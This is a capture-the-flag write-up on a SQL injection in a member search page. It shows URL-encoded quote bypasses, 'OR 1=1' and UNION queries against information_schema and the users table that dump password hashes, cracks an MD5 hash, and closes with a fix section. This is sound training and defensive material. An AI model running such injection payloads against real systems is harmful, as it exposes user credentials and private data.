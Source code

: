 # SQL injection users

### Breach Description:

The Search member input is susceptible to SQL injection such that:

```jsx
ID: 1%27 OR 1=1 UNION SELECT countersign, commentaire FROM users 
First name: 5ff9d0165b4f92b14994e5c685cdce28
Surname : Decrypt this password -> then lower all the char. Sh256 on it and it's good !
```

 

leads us to the Flag:

10A16D834F9B1E4068B25C4C46FE0284E99E44DCEAF08098FC83925BA6310FF5

### Breach Explanation:

When searching for members, one quickly can quickly realise the return of the search is the unfiltered return of an sql query. For example, typing the “’” char gives this error:

```jsx
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1
```

From this we get quite some information:

- The server uses MariaDB
- basic sanitation is done to escape sql characters

We can assume the sql query being executed looks something like:

```jsx
SELECT * FROM users WHERE user_id = '(our input goes here)'
```

What we could try do to is have our input be

```jsx
' OUR SQL CODE -- and now all of this is a comment
```

which would make the complete request:

```jsx
SELECT * FROM users WHERE user_id = '' OUR SQL CODE -- and now all of this is a comment'
```

However, because the input is sanitized and the ‘ is escaped we end up with: 

```jsx
SELECT * FROM users WHERE user_id = '\' OUR SQL CODE -- and now this is still part of the string'
```

After trying a few methods to bypass sanitation like: 

- Escaping the escape char
- Doubling up ‘ char
- Checking if perhaps sanitation happens on the front end
- etc

We find that url encoding our “’” char gets is past sanitation, this gives us:

```jsx
1%27
```

This now opens the door for us to inject our own modifiers to this sql request

SQL injection to get all users:

```jsx
1%27 OR 1=1
```

This gets us a list of all the users, not bad, but not that useful. luckily, we can use a UNION to select more things, and gather information about the structure of the db, and other columns we might want to look at. We can tell this is a MariaDB database, and we can request some information from the databases containing metadata on other databases, the structure of those can be found online.

```jsx
1%27 UNION SELECT column_name, table_name FROM information_schema.columns
```

this gets us a very, very long list, that contains all the column names and all their associated tables, from this we can see that there is a commentaire column, and a countersign column in the users table.

now we can craft another injection to get this information for all out users, and doing so gives us this interesting entry:

  

```jsx
ID: 1%27 OR 1=1 UNION SELECT countersign, commentaire FROM users 
First name: 5ff9d0165b4f92b14994e5c685cdce28
Surname : Decrypt this password -> then lower all the char. Sh256 on it and it's good !
```

MD5 encryption is vulnerable, a simple online decryptor gives us:

```jsx
FortyTwo
```

Which transformed as indicated in the comment gives us the flag:

```jsx
10A16D834F9B1E4068B25C4C46FE0284E99E44DCEAF08098FC83925BA6310FF5
```

## Breach Fix:

Firstly getting the direct return of the SQL query in the page makes this way too easy, allowing multiple returns instead of one, giving errors that may help with discovery etc. transforming the return to make sure it only returns one field, and does not forward errors would complicate this exploit tremendously.

Secondly to stop this exploit completely, one needs to improve sanitation so that a basic bypass will not work anymore. One can obviously go about this manually, but many libraries and ORM will do this reliably. In this case the id is a simple int, so even throwing an error when any non digit char is met would have stopped this exploit.
